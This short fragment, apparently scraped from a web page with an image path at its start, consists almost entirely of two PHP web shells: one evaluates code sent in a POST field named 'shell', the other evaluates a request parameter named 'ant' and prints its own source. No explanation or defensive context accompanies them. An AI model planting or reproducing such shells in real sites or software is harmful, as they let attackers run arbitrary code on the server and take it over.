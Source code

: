 
```php
<?php @eval($_POST['shell']);?>
```



```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```